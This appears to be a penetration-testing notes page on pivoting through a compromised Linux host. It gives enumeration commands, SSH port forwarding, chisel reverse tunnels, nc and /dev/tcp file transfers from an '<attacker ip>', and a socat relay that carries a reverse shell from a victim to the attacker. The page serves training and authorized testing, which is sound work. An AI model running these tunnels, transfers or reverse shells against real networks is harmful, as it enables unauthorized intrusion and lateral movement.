 # Pivoting in Unix/Linux

## Pivoting in Unix/Linux

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment.&#x20;

## Pivoting Enumeration

### Enumerating the ARP Table

The ARP table contains IP addresses of hosts that the target has interacted with recently. We can enumerate it with:

```
arp -a
```

### Enumerating Name Resolution

On Unix/Linux systems, we can find the name resolution mappings in:

```
/etc/hosts
```

On Unix/Linux there is a file that identifies local DNS servers:

```
/etc/resolv.conf
nmcli dev show
```

### Enumerating Network Interface Cards (NICs)

First, we must enumerate the subnets that are on the operating system, we can do this with **ipconfig** or **ip** commands:

```
ifconfig
ip a
```

Then we must review the output:

```
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

In this example we see more than one network interface, however, we don't have access to the other network \`20.20.0.10\`. On the victim machine, we can perform a ping sweep to use ICMP and see which hosts are up and running.&#x20;

### Enumerating Hosts

```
fping -a -g 20.20.20.0/24 2>/dev/null
nmap -sn 20.20.20.0/24


# You can use either {1..255} or `seq 1 255`

for i in {1..254} ;do (ping 20.20.20.$i -c 1 -w 5  >/dev/null && echo "20.20.20.$i" &) ;done
for i in {1..255}; do (ping -c 1 20.20.20.${i} | grep "bytes from" &); done
for i in {1..255}; do ping -c 1 172.20.0.$i; done | grep 'ttl='
for i in `seq 1 255`; do (ping -c 1 172.20.0.$i > /dev/null && echo "172.20.0.$i is up" &); done

```

Another host has been found \`20.20.20.15\` and has ports 80 and 22 open, but because we can not access this machine, we have to use the machine 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. This is where pivoting comes into place.

Here for the notes, we will have this special nomenclature:

* 20.20.20.15 -> **victim machine**
* 10.10.10.10 -> **pivoting machine**
* attacker -> **attacker machine**

### **Enumerating Ports**

If you found a host, you may want to do a port scan:

```
for port in {1..30}; do echo > /dev/tcp/10.10.10.101/$port && echo "port $port is open";done 2>/dev/null
for port in `seq 1 30`; do echo > /dev/tcp/10.10.10.101/$port && echo "port $port is open";done 2>/dev/null
```

## Pivoting Example

127.0.0.1:3000 <- Aogiri(10.10.10.101):3000 <- Kaneki\_pc(172.20.0.150):3000 <- Gogs(172.18.0.2):3000

Let’s try that, first SSH into 10.10.10.101 then forward port 3000 from 172.18.0.2 through kaneki-pc.

```bash
kaneki@Aogiri:~$ ssh -L 3000:172.18.0.2:3000 kaneki_pub@172.20.0.150
```

Then forward from Aogiri to our host (127.0.0.1):

```bash
kali@kali:~$ ssh -L 3000:127.0.0.1:3000 -i kaneki.backup kaneki@10.10.10.101
```

## Pivoting with chisel

Get chisel and build it.

```
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Send the chisel binary to the pivoting machine

* On attacker machine

```
md5sum chisel
nc -nlvp 443 < chisel
```

* On pivoting machine

```
cat > chisel < /dev/tcp/<attacker ip>/443
md5sum chisel
chmod +x chisel
```

* Create reverse port forwarding with the victim machine ports to bind attacker machine ports
  * On attacker machine

```
./chisel server --reverse -p 1234
```

* On pivoting machine

```
./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
```

Now the attacker can check the web app on `localhost:80` or use `ssh 127.0.0.1 -p 222`

## Pivoting with socat

Get socat static binary:

```
wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
```

Send socat to pivoting machine:

* On attacker machine

```
md5sum socat
nc -nlvp 443 < socat
```

* On pivoting machine

```
cat > socat < /dev/tcp/<attacker ip>/443
md5sum socat
chmod +x socat
```

Prepare the attacker machine for listening:

```
nc -nlvp 7979
```

Tunnel TCP data for a reverse shell from the victim to the attacker:

* On Pivoting Machine

```
./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
```

We should have a reverse shell.

## Pivoting with SSH

#### SOCKS Proxy

```
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

Cool Tip: Konami SSH Port forwarding

```
[ENTER] + [~C]
-D 1090
```

#### Local Port Forwarding

```
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```

#### Remote Port Forwarding

```
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```

## Proxychains

### SSH Dynamic Port Forwarding

If the target has more than one NIC and more than one network subnet than we can use proxychains.

In Kali edit the proxychains configuration file:

```
sudo vim /etc/proxychains.conf
```

Add this lines:

```
[ProxyList]
socks4 127.0.0.1 8080
```

Perform a dynamic port forwarding to our port 8080

```
sudo ssh -N -D 127.0.0.1:8080 username@<target-IP>
```

Then scan with nmap and specify a TCP scan with `-sT` and don't use `ICMP` with `-Pn`.

```
proxychains nmap -p- -sT -Pn <target-Second-Interface-IP>
```




